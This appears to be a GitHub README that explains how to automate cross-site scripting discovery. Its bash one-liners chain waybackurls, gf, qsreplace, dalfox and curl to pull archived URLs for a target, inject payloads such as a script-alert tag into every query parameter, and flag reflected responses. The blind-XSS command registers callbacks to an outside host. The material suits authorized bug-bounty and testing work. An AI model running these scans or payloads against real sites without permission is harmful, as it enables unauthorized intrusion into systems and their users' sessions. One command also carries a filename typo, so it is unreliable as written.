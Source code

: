 # Automate XSS using Dalfox, WaybackURL, GF Patterns.

<b> Make sure you have Go installed on your Machine </b> 

### To Install Go on your Machine:

```
  1) sudo apt install -y golang
  2) export GOROOT=/usr/lib/go
  3) export GOPATH=$HOME/go
  4) export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
  5) source .bashrc
```

## How to Hunt Blind XSS using Dalfox? 

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use GF patterns to find Possible XSS Vulnerable Parameters.
- Use Dalfox to find XSS.

* Steps :
```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```
## How to Hunt Reflected XSS?

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use qsreplace for Accept URLs on stdin, replace all query string values with a user-supplied value, only output each combination of query string parameters once per host and path.

* Steps :
```bash
waybackurls testphp.vulnweb.com| grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
## Find the parameters which are not filtering special characters - One Liner
```bash
echo "test.url" | waybackurls | grep "=" | tee waybackurls.txt
cat waybackruls | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | qsreplace '"><()'| tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && echo -e "$host \033[91m Vullnerable \e[0m \n" || echo -e "$host  \033[92m Not Vulnerable \e[0m \n"; done | tee XSS.txt
```

## Tools Download Links:- 

* 1:- [Dalfox](https://github.com/hahwul/dalfox)
* 2:- [Waybackurls](https://github.com/tomnomnom/waybackurls)
* 3:- [GF](https://github.com/tomnomnom/gf)
* 4:- [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns)
* 5:- [qsreplace](https://github.com/tomnomnom/qsreplace)

Find Script here : [QuickXSS](https://github.com/theinfosecguy/QuickXSS)


If you have any Questions, Reach out to me via [Twitter](https://twitter.com/g0t_rOoT_)
## Twitter : [Fani Malik](https://twitter.com/fanimalikhack)
## Twitter : [Faizee Asad](https://twitter.com/faizee_asad)
## Twitter : [Prince Prafull](https://twitter.com/princeprafull3)
